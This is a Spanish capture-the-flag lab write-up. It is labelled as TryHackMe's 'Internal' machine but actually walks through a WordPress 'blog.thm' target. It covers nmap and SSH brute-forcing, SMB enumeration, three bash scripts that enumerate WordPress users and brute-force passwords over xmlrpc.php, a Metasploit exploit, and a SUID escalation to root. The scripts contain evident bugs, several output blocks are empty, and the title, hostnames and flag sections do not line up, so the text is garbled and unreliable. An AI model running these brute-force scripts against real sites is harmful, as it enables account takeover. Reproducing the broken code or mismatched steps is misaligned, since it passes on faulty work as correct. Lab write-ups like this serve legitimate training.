





# Introducción

Bienvenidos a mi página y a este post donde veremos el recorrido sobre como solucionar la máquina Internal de TryHackMe.
La resolución de esta máquina la realizamos con la comunidad de **[Twitch](https://www.twitch.tv/c04tl)** y de acuerdo con el room, se recomienda crear un reporte de Pentesting.

Nosotros hicimos uno muy, muy sencillo pero aquí pongo el repositorio de github para que lo puedan consultar: [Reporte](https://github.com/c04tl/Pentest-Report-TryHackMe-Internal)

Para comenzar, tenemos que agregar la dirección IP de la máquina en nuestro archivo `/etc/hosts` con el nombre internal.thm.

# Resolución

Comenznado con la fase de reconocimiento a nivel de red, ejecutamos un escaneo de puertos y servicios utilizando la siguiente linea de comandos:
```shell
sudo nmap -Pn -n -p- --open -sSVC --min-rate 4000 internal.thm
```

Y aquí hacemos un desgloce de las opciones usadas:
- `Pn` omite un ping inicial para comprobar el estado del servidor
- `n` Omite consultar los DNS para hacer la traducción correspondiente
- `-p-` escaneo todos los puertos 0-65535
- `open` muestra solo los puertos abiertos en el resultado
- `sSVC` comprende 3 opciones en una "abreviación":
    - `sS` escaneo stealth o sigiloso (necesita permisos sudo)
    - `sV` Muestra las versiones de los servicios detectados
    - `sC` ejecuta una serie de scripts para descubrimiento
- `min-rate 4000` envia paquetes a una velocidad no menor a 4000 paquetes por segundo


Como resultado obtuvimos lo siguiente:

```shell
```


Comenzando por el puerto `80` vamos explorando la aplicación para **Enumerar** detectar su tecnología

probamos el script `ssh-brute` de nmap para un pequeño ataque de fuerza bruta, sin embargo, no se obtuvieron credenciales válidas:

```shell
nmap -p22 --script ssh-brute blog.thm
.
.
.
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 1424 guesses in 602 seconds, average tps: 2.4

Nmap done: 1 IP address (1 host up) scanned in 603.74 seconds
```

Ahora seguimos con los puertos 139 y 445 que corresponden a SMB por lo cual utilizamos `smbclient` con una sesión nula para tratar de enumerar los recursos comparitdos y obtenemos lo siguiente:

```shell
smbclient -N -L blog.thm
.
.
.
SHARES
```


## Cuarta y quinta Flag

Ya que tenemos el puerto `80` abierto, ejecutamos `whatweb blog.thm` para identificar la tecnología utilizada por la página web y podemos ver que se trata de un CMS (Content Management Systems) **WorPress** en la **versión 5.0**:

```shell
http://blog.thm [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.3.160], MetaGenerator[WordPress 5.0], PoweredBy[-wordpress,-wordpress,,WordPress,WordPress,], Script[text/javascript], Title[Billy Joel&#039;s IT Blog &#8211; The IT blog], UncommonHeaders[link], WordPress[5.0]
```

Afortunadamente, wordpress cuenta con una API que nos permite gestionar ciertos aspectos a través  de Json y podemos aprovecharla en esta máquina para consultar todos los usuarios en <http://blog.thm/wp-json/wp/v2/users/>.


# Explotación

Para explotar el sitio wordpress aprovechando la API escribimos 3 scripts en Bash que realizan lo siguiente:

1. Enumerar usuarios
2. Enumerar metodos
3. Ataque de fuerza bruta

> **Estos scripts están disponibles en mi repositorio [WP-Hacking](https://github.com/c04tl/WP-Hacking) para su uso y modificación ;)**

## Scripts realizados

Los siguientes 3 Scripts en bash los fuimos escribiendo y explicando en vivo con la comunidad de **[Twitch](https://www.twitch.tv/c04tl)** comenzando por ***getUsers.sh***.


### getUsers.sh

Para poder usar este script necesitamos ejecutar `sudo apt install jq` para isntalar jq que nos ayudará a procesar mas fácilmente respuesta Json. Una vez instalado, basta con hacer un `./getUsers.sh blog.thm` y el script guardará los usuarios encontrados en un archivo de nombre ***usuarios-wp.txt***


```shell
#!/bin/bash

if [[ -z $@ ]]; then

if [[ -z $@ ]]; then
    echo "Modo de uso: $0 HOST"
    exit 1
fi

host="$1"
usuario="A"
i=0
while [[ -n $usuario ]]; do
    usuario=$(curl -s $host/wp-json/wp/v2/users | jq ".[$i][\"slug\"]" | tr -d '"')
    if [[ $usuario == "null" ]]; then
        exit 0

    elif [[ -z usuario ]]; then
        if [[ -z usuario=$(curl -s "$host/?rest_route=/wp/v2/users" | jq .[$i][\"slug\"] | tr -d '"') ]]; then
            echo "[x] No se encontraron usuarios :c"
            exit 1
        fi
    fi

    echo "[+] Usuario: $usuario"
    echo $usuario >> usuarios-wp.txt
    i=$i+1
done
```

### getMethods.sh

Para este script necesitamos utilizar `xmlrpc.php` el cual es un sistema que permite actualizaciones remotas a WordPress desde otras aplicaciones, concretamente utilizaremos `system.listMethods` para listar todos los métodos permitidos, sin embargo, solo nos interesa que esté habilitado ***wp.getUsersBlogs***


```shell
#!/bin/bash

if [[ -z $@ ]]; then
	echo "Modo de uso: $0 HOST"
	exit 1
fi

host=$1

echo "
<methodCall>
	<methodName>system.listMethods</methodName>
</methodCall>
" > datos.xml

curl -s "$host/xmlrpc.php" -d @$datos_xml
rm datos.xml
```

Buscando en el cuerpo de la respuesta podemos ver que nuestro método **wp.getUsersBlogs** está habilitado }:).


### bruter.sh

**wp.getUsersBlogs** nos permite consultar los blogs creados por un usuario específico pero para poder obtenerlos debemos autenticarnos como un usuario válido de WordPress, gracias a ***getUsers.sh*** ya debemos tener los usuarios válidos en el archivo ***usuarios-wp.txt*** ahora solo resta ejecutar nuestro script y pasarle como parametro el host a atacar y el diccionario pero por defecto utiliza el diccionario de nmap `/usr/share/nmap/nselib/data/passwords.lst`.

`./bruter.sh `


```shell
#!/bin/bash

if [[ -z $@ ]]; then
  echo "Modo de uso: $0 [HOST] [DICCIONARIO]"
fi

host="$1"
dict="$2"

for user in $(cat usuarios-wp.txt); do
	for psw in $(cat $dict); do
		echo "
		<methodCall>
			<methodName>wp.getUsersBlogs</methodName>
			<params>
				<param><value>$user</value></param>
				<param><value>$psw</value></param>
				</params>
		</methodCall>
		" > datos.xml
		echo "Probando $user:$psw"

		if [[ ! $(curl -s "$host/xmlrpc.php" -d @"datos.xml" | grep "Incorrect" &)  ]]; then
			echo "[+] $user:$psw"
			rm datos.xml
			exit 0
		fi; wait

		rm datos.xml

	done
done
```

Una vez que obtuvimos las credenciales podemos iniciar sesión en <http://blog.thm/wp-admin/> y lo primero que veremos sera el panel de administración:





Después de hacer una exploración podemos ver que no tenemos permisos administrativos, entonces vamos a utilizar `searchsploit` para buscar un exploit de la versión de wordpress que detectamos y encontramos un exploit de metasploit, lo configuramos y lanzamos para obtener una sesión de meterpreter





### flag user.txt
Ahora vamos al directorio home del usuario bjoel para obtener la bandera pero el archivo tiene lo siguiente:




Ahora buscamos binarios con [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) para escalar privilegios

```shell
find / -type f -perm -4000 2>/dev/null
```

Encontramos que `checker` tiene estos permisos pero al ejecutarlo solo se imprime **Not an Admin**

Para analizarlo mejor descargamos el archivo a nuestra maquina y vamos a analizarlo con `radare2`, encontramos la cadena `admin` en la dirección 0x722 que es pasada a la función `getenv` ademaś vemos una comparación a 0 en la dirección 0x737 en decir, si está vacía la variable admin se hará un salto a 0x75a, imprimirá *Not an admin* y saldrá del programa.



Para configurar la variable `admin` solo hacemos un `export admin=loqueseaxd` ya que solo necesita estar configurada y después ejecutamos checker de nuevo para obtener una shell de root.


## Bandera 1, 2 y 3



Ahora con permisos de root buscamos la bandera `user.txt`:

```shell
find / -type f -name user.txt 2>/dev/null
```
Y terminamos con la bandera `root.txt` en `/root/`

# Conclusiones
Así terminamos con esta máquina, espero les haya gustado y les haya sido util, nos vemos en otro post ;)

